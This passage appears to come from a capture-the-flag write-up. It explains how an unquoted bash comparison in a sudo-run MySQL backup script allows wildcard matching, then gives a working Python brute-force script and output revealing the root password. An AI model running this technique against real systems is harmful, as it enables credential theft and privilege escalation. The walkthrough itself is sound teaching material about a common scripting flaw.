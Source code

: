 The comparison of two variables without one being quoted is a [major error](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29)!

As a result the password input can just be `*` and we execute the script, pairing this with a little scripting we can bruteforce the root password, by sequenctially going `a*`, `b*`, `c*`...

Here's a little script to do so:

```python
import subprocess
from string import digits,ascii_letters
characters = ascii_letters+digits
password = ""
found = False
while not found:
	for char in characters:
		cmd=f"echo {password}{char}* | sudo /opt/scripts/mysql-backup.sh"
		out=subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
		if "Password confirmed!" in out:
			password+=char
			print(f"Password: {password}")
			break
	else:
		found = True
		print(f"Password Found! {password}")
```

Running the script does the following:

```
Password: k
Password: kl
Password: klj
Password: kljh
Password: kljh1
Password: kljh12
Password: kljh12k
Password: kljh12k3
Password: kljh12k3j
Password: kljh12k3jh
Password: kljh12k3jha
Password: kljh12k3jhas
Password: kljh12k3jhask
Password: kljh12k3jhaskj
Password: kljh12k3jhaskjh
Password: kljh12k3jhaskjh1
Password: kljh12k3jhaskjh12
Password: kljh12k3jhaskjh12k
Password: kljh12k3jhaskjh12kj
Password: kljh12k3jhaskjh12kjh
Password: kljh12k3jhaskjh12kjh3
Password Found! kljh12k3jhaskjh12kjh3
```
